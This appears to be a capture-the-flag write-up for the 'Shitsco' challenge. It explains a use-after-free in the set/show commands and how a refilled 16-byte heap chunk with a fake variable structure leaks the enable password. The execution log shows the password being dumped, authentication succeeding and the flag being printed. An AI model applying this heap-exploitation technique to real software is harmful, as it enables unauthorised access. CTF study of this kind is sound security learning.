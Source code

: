 #Information

This was an unintended use-after-free vulnerability in the variable processing commands (set/show). Exploitation is straight-forward:

* Trigger the invalid state by adding and removing variables
* Cause a 16-byte allocation with controlled data to fill the freed structure
 * make a fake variable structure with a pointer to the password as the value
 * controlled heap data via strdup() on the argument to a command
* show variables to dump the enable password
* profit

#Relevant Structures
`struct variable { char* key, char* value, variable *flink, variable *blink }`

#Execution Log

```

 oooooooo8 oooo        o88    o8
888         888ooooo   oooo o888oo  oooooooo8    ooooooo     ooooooo
 888oooooo  888   888   888  888   888ooooooo  888     888 888     888
        888 888   888   888  888           888 888         888     888
o88oooo888 o888o o888o o888o  888o 88oooooo88    88ooo888    88ooo88

Welcome to Shitsco Internet Operating System (IOS)
For a command list, enter ?
$
set 1 abcd
$
set 2 abcd
$
set 1
$
set 2
$
show <pointers>
��� is not set.
$
show
password: bruT3m3hard3rb4by
$
Enable password: "bruT3m3hard3rb4by"
enable bruT3m3hard3rb4by
Authentication Successful
#
flag
The flag is: Dinosaur vaginas
#
quit
```
